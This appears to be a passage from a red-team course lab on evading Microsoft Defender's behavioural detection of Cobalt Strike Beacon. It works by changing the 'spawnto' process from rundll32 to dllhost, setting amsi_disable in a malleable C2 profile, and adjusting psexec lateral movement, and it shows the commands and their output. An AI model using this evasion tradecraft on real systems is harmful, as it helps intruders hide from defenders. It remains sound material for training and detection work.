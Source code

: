 When dealing with behavioural detections, the Defender alerts look something like this:
```
PSComputerName                 : fs
ProcessName                    : C:\Windows\System32\rundll32.exe
RemediationTime                : 9/14/2022 5:40:03 PM
Resources                      : {behavior:_pid:4964:111820579542652, 
                                 process:_pid:4040,ProcessStart:133076508002529669, 
                                 process:_pid:4964,ProcessStart:133076507626927382}
```
  

The Beacon running on the file server is living inside the rundll32 process (PID 4404).  When Cobalt Strike runs a post-ex command that uses the [fork & run](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/appendix-a_beacon-opsec-considerations.htm) pattern, it will spawn a sacrificial process, inject the post-ex capability into it, retrieve the output over a named pipe, and then kill the process.  The primary reason to do this is to ensure that unstable post-ex tools don't crash the Beacon.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/d94/f72/a9d/behaviour.png)

  

rundll32 being the default "spawnto" for Cobalt Strike has been [a thing](https://www.cobaltstrike.com/blog/why-is-rundll32-exe-connecting-to-the-internet/) for a long time and is now a common point of detection.  The service binary payload used by psexec also uses this by default, which is why you see those Beacons running as rundll32.exe.

The process used for post-ex commands and psexec can be changed on the fly in the CS GUI.  To change the post-ex process, use the `spawnto` command.  x86 and x64 must be specified individually and environment variables can also be used.
```
beacon> spawnto x64 %windir%\sysnative\dllhost.exe
beacon> spawnto x86 %windir%\syswow64\dllhost.exe
```

  The sysnative and syswow64 paths should be used rather than system32.

  

If we then use powerpick to get its own process name, it will return dllhost.
```
beacon> powerpick Get-Process -Id $pid | select ProcessName

ProcessName
-----------
dllhost    
```
  

powerpick + PowerView will now run on the file server without being caught by AMSI or this behavioural detection.
```
beacon> run hostname
fs

beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
beacon> powerpick Get-Domain

Forest                  : cyberbotic.io
DomainControllers       : {dc-2.dev.cyberbotic.io}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  : cyberbotic.io
PdcRoleOwner            : dc-2.dev.cyberbotic.io
RidRoleOwner            : dc-2.dev.cyberbotic.io
InfrastructureRoleOwner : dc-2.dev.cyberbotic.io
Name                    : dev.cyberbotic.io
```
  

Use the spawnto command without any argument to reset back to default.
```
beacon> spawnto
[*] Tasked beacon to spawn features to default process
```
  

You may also set the spawnto inside malleable C2 by including the `spawnto_x64` and `spawnto_x86` directives inside the post-ex block.  Every new Beacon will then use this as their new default.
```
post-ex {
        set amsi_disable "true";

        set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";
        set spawnto_x86 "%windir%\\syswow64\\dllhost.exe";
}
```
  

When moving laterally with psexec, Beacon will attempt to use the spawnto setting from your malleable C2 profile.  However, it cannot use environment variables (such as `%windir%`), so will fall back to rundll32 in those cases.  You can override this at runtime with the `ak-settings` command to specify an absolute path instead.
```
beacon> ak-settings spawnto_x64 C:\Windows\System32\dllhost.exe
[*] Updating the spawnto_x64 process to 'C:\Windows\System32\dllhost.exe'
[*] artifact kit settings:
[*]    service     = ''
[*]    spawnto_x86 = 'C:\Windows\SysWOW64\rundll32.exe'
[*]    spawnto_x64 = 'C:\Windows\System32\dllhost.exe'

beacon> ak-settings spawnto_x86 C:\Windows\SysWOW64\dllhost.exe
[*] Updating the spawnto_x86 process to 'C:\Windows\SysWOW64\dllhost.exe'
[*] artifact kit settings:
[*]    service     = ''
[*]    spawnto_x86 = 'C:\Windows\SysWOW64\dllhost.exe'
[*]    spawnto_x64 = 'C:\Windows\System32\dllhost.exe'
```

  You may also change the name of the service (rather than 7 random characters) with `ak-settings service [name]`.

  

Lateral movement with psexec will then land us in dllhost.exe.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/a1e/b9c/180/psexec.png)